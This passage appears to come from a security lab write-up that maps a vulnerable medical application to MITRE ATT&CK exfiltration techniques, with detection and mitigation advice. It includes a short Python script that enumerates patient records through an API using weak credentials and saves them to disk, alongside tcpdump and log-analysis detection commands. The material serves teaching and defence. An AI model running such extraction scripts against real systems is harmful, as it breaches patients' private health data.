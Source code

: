 **Other alternative protocols:**
- FTP (using INTO OUTFILE + FTP)
- SMTP (if MySQL can send emails)
- HTTP (via UDF or LOAD_FILE)

**Detection:**
```bash
# Monitor DNS queries from database server
tcpdump -i any port 53 -w dns.pcap

# Analyze for suspicious patterns
# High volume of DNS queries to same domain
# Queries with data in subdomain
```

**Mitigation:**
- Restrict database server's network access
- DNS filtering and monitoring
- No outbound internet for database server
- Application-layer firewall

---

#### T1567: Exfiltration Over Web Service

**Description:** Adversaries may exfiltrate data via web services.

**Implementation in Lab:**
- Use application API to extract data
- Scripted extraction via HTTP requests

**Attack:**
```python
# Exfiltrate via web API
import requests

for patient_id in range(1, 51):
    response = requests.get(
        f'http://target/api/patient/{patient_id}',
        auth=('doctor1', '123456')
    )
    
    if response.status_code == 200:
        # Save PHI
        with open(f'patient_{patient_id}.json', 'w') as f:
            f.write(response.text)

# 50 API calls = complete PHI breach
```

**Detection:**
```bash
# Web server access logs
# High volume of API calls from single IP
awk '{print $1}' access.log | sort | uniq -c | sort -rn | head

# Unusual API usage patterns
# Accessing all patients sequentially
grep "/api/patient/" access.log | wc -l
```
